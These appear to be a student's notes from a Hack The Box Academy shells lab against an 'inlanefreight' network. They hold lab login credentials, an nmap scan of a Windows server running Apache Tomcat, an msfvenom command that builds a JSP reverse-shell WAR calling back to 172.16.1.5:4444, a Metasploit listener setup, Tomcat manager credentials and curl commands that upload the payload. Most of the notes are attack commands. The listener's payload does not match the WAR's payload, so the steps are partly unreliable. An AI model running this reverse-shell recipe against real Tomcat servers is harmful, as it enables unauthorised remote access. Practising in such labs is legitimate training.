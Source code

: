 ```
10.129.204.126
```

Credentials: htb-student / HTB_@cademy_stdnt!

Host 1: 172.16.1.11:8080
Host 3: 172.16.1.13
Host 2: blog.inlanefreight.local


```
xfreerdp /v:10.129.204.126 /u:htb-student /p:HTB_@cademy_stdnt!
```

#### NMAP Scan: Host 1
```
└──╼ $nmap -A -sC -Pn 10.129.32.8
Starting Nmap 7.92 ( https://nmap.org ) at 2023-10-14 12:19 EDT
Nmap scan report for status.inlanefreight.local (172.16.1.11)
Host is up (0.057s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Inlanefreight Server Status
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2019 Standard 17763 microsoft-ds
515/tcp  open  printer
1801/tcp open  msmq?
2103/tcp open  msrpc         Microsoft Windows RPC
2105/tcp open  msrpc         Microsoft Windows RPC
2107/tcp open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-10-14T16:20:08+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=shells-winsvr
| Not valid before: 2023-10-13T16:06:28
|_Not valid after:  2024-04-13T16:06:28
| rdp-ntlm-info: 
|   Target_Name: SHELLS-WINSVR
|   NetBIOS_Domain_Name: SHELLS-WINSVR
|   NetBIOS_Computer_Name: SHELLS-WINSVR
|   DNS_Domain_Name: shells-winsvr
|   DNS_Computer_Name: shells-winsvr
|   Product_Version: 10.0.17763
|_  System_Time: 2023-10-14T16:20:03+00:00
8080/tcp open  http          Apache Tomcat 10.0.11
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/10.0.11
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T16:20:03
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: shells-winsvr
|   NetBIOS computer name: SHELLS-WINSVR\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-10-14T09:20:03-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: SHELLS-WINSVR, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:d5:ed (VMware)
|_clock-skew: mean: 1h23m59s, deviation: 3h07m50s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.75 seconds

```

#### Host 1 IPs and Domain Names

172.16.1.11  status.inlanefreight.local
172.16.1.12  blog.inlanefreight.local
10.129.201.134  lab.inlanefreight.local

#### Start firefox
```
/usr/bin/firefox
```
#### War Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f war > reverse.war
```

#### Use Metasploit to Setup the Listener
```
msf5> use exploit/multi/handler  
msf5> set payload windows/meterpreter/reverse_tcp  
msf5> set LHOST 172.16.1.5 
msf5> set LPORT 4444  
msf5> run
```
#### Credentials

For Apache Tomcat
```
tomcat:Tomcatadm
```

For blog.inlanefreight.local
```
admin:admin123!@#
```

#### Curl Post Request
```
curl --upload-file reverse.war -u 'tomcat:Tomcatadm' "http://status.inlanefreight.local"
```

#### Upload the reverse.war file
```
curl -d @reverse2.war http://status.inlanefreight.local/form1
```


#### Tomcat login

**Login Page**
```
http://172.16.1.11:8080
```

**Credentials**
```
tomcat:Tomcatadm
```